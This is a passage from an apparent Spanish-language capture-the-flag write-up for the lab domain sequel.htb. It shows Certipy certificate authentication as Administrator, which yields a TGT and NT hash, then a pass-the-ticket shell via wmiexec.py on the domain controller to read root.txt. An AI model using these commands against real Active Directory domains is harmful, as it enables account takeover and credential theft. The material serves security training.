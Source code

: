 Con el certificado generado, lo usamos para autenticarnos como `Administrator` en el dominio `sequel.htb`. Esto nos permitió obtener un `TGT (Ticket Granting Ticket)` almacenado en un archivo `ccache` (`administrator.ccache`). Con este ticket, podemos usar herramientas como `impacket` para autenticarnos realizando un `Pass The Ticket (PtT)`. Además, conseguimos el `NT hash` del administrador, lo que nos abre nuevas posibilidades de explotación dentro del dominio.

```bash
❯ certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

A través del `TGT` obtenido previamente, nos conectamos usando `wmiexec.py` con las credenciales del usuario `Administrator` en el `Domain Controller` de `sequel.htb`. Utilizamos el siguiente comando para autenticar y obtener acceso.

Una vez conectado, verificamos el acceso con el comando `whoami`, que confirmó que estamos autenticados como `sequel\administrator`. Teniendo acceso al `DC`, finalmente logramos visualizar la flag **root.txt**.

```bash
❯ KRB5CCNAME=administrator.ccache wmiexec.py sequel.htb/Administrator@dc.sequel.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sequel\administrator

C:\>type C:\Users\Administrator\Desktop\root.txt
fbbbbb4a3************************
```
